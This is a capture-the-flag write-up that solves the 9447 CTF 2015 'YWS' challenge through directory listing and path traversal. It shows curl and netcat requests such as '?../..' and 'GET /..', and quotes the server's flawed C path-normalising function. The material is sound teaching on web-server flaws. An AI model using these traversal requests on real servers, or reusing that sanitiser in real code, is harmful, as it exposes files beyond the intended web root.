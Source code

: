 Title: CTF writeup - 9447 CTF 2015: YWS
Category: Infosec
Tags: ctf, directory traversal
Summary: Directory traversal and directory listing


## Challenge

> My friend wrote a cool web server. I'm sure he's stored some great doxxxs on the website. Can you take a look and report back any interesting things you find?
>
> The web page is at http://yws-fsiqc922.9447.plumbing
>
> Hint! Where does the website not want you to go?

## Writeup

The first thing to try is robots.txt.

```console
$ curl http://yws-fsiqc922.9447.plumbing/robots.txt
User-agnet: *
Disallow: /
Disallow: /..
Disallow: .
Disallow: ..
Disallow: /work
Disallow: /imegas/
Allow: /sounds/pljesus.wav
```

Seems the author had dyslexia, but navigating to the `/images` folder leads to a [directory listing](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Directory_Indexing).

```html
$ curl http://yws-fsiqc922.9447.plumbing/images
<html>
<head>
<title>Directory listing for /images</title>
</head>
<body>
<h2>Directory listing for /images</h2>
<hr>
<ul>
<li><a href="/images/.">.</a>
<li><a href="/images/aangel2.gif">aangel2.gif</a>
<li><a href="/images/dj2.gif">dj2.gif</a>
<li><a href="/images/..">..</a>
<li><a href="/images/rand_tile1.jpg">rand_tile1.jpg</a>
<li><a href="/images/djangopowered126x54.gif">djangopowered126x54.gif</a>
<li><a href="/images/php.jpg">php.jpg</a>
<li><a href="/images/dj1.gif">dj1.gif</a>
<li><a href="/images/secret_images">secret_images</a>
<li><a href="/images/jboogie.gif">jboogie.gif</a>
<li><a href="/images/dj3.gif">dj3.gif</a>
<li><a href="/images/aangel1.gif">aangel1.gif</a>
<li><a href="/images/remail.gif">remail.gif</a>
</ul>
<hr>
</body>
</html>
```

You can also list the web app's root by adding 2 slashes.

```html
$ curl http://yws-fsiqc922.9447.plumbing//
<html>
<head>
<title>Directory listing for /</title>
</head>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
<li><a href="//.">.</a>
<li><a href="//images">images</a>
<li><a href="//sounds">sounds</a>
<li><a href="//400.html">400.html</a>
<li><a href="//..">..</a>
<li><a href="//robots.txt">robots.txt</a>
<li><a href="//index.html">index.html</a>
</ul>
<hr>
</body>
</html>
```

Following the hint, we have to do a [directory traversal attack](https://www.owasp.org/index.php/Path_Traversal) and, since directory listing is enabled on the server, we can simply do it on paths instead of specific files.
Trying to list `/..` with curl didn't work and simply showed the website's main page.

```console
$ curl 'http://yws-fsiqc922.9447.plumbing/..'
```

Adding multiple `../` didn't work either.

It finally worked by adding the directory traversal as a query param.

```html
$ curl 'http://yws-fsiqc922.9447.plumbing/?../..'
<html>
<head>
<title>Directory listing for /..</title>
</head>
<body>
<h2>Directory listing for /..</h2>
<hr>
<ul>
<li><a href="/../9447{D1rect0ries_ARe_h4rd}">9447{D1rect0ries_ARe_h4rd}</a>
<li><a href="/../.">.</a>
<li><a href="/../..">..</a>
<li><a href="/../gws">gws</a>
<li><a href="/../files">files</a>
</ul>
<hr>
</body>
</html>
```

Flag: `9447{D1rect0ries_ARe_h4rd}`

## curl gotcha

After the CTF, I followed discussions on IRC and learned that curl will "fix" the path for you before sending the query.

```console hl_lines="1 6"
$ curl -v http://127.0.0.1:8080/../../..
* Rebuilt URL to: http://127.0.0.1:8080/
* Hostname was NOT found in DNS cache
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.38.0
> Host: 127.0.0.1:8080
> Accept: */*
```

Most people seem to have used BurpSuite or a plain connection with netcat to get the flag:

```bash
printf "GET /.. HTTP/1.1\r\n\r\n" | nc yws-fsiqc922.9447.plumbing 80
```

## Why adding it as a query param worked

I didn't understand why adding the directory traversal after a `?` worked, since the vulnerability was in the path, not a query param.

I looked at the source code that the organizers uploaded after the CTF, and it turns out that the `extractUrl` function will strip extra levels of `../`.
It only keeps the last one, so it strips the `?` at the same time: `?../..` becomes `/..`.
Here is the function from the source code:

```c
int extractURL(char *urlS, int urlSize, char *fileN, int fileNMaxSize) {
    // Verify it starts with '/'.
    if (urlSize < 1 || urlS[0] != '/') return -1;
    int curS = 1;
    fileN[0] = '/';
    fileN[1] = 0;
    int i;
    for (i = 1; i < urlSize; i++) {
        if (curS == fileNMaxSize) {
            return -1;
        }
        fileN[curS++] = urlS[i];
        fileN[curS] = 0;
        if (strcmp(&fileN[curS - 3], "../") == 0) {
            curS -= 4;
            while (fileN[--curS] != '/');
            curS++;
        }
        if (strcmp(&fileN[curS - 2], "./") == 0) {
            curS -= 2;
        }
    }
    if (strcmp(fileN, "/") == 0) {
        strcpy(fileN, "/index.html");
    } else if (fileN[curS - 1] == '/') {
        fileN[curS - 1] = 0;
    }
    return 0;
}
```
